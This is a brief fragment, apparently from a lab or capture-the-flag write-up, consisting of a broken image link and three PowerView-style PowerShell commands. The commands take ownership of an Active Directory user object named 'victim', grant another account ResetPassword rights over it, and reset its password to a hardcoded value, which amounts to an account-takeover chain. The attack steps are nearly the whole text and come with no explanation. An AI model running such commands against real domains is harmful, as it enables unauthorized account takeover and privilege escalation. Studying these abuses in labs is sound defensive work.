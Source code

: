
Set-DomainObjectOwner -Identity victim -OwnerIdentity tom 

Add-DomainObjectAcl -TargetIdentity victim -PrincipalIdentity axura -Rights ResetPassword 

$newPassword = ConvertTo-SecureString "Axura@4sure1377" -AsPlainText -Force Set-DomainUserPassword -Identity victim -AccountPassword $newPassword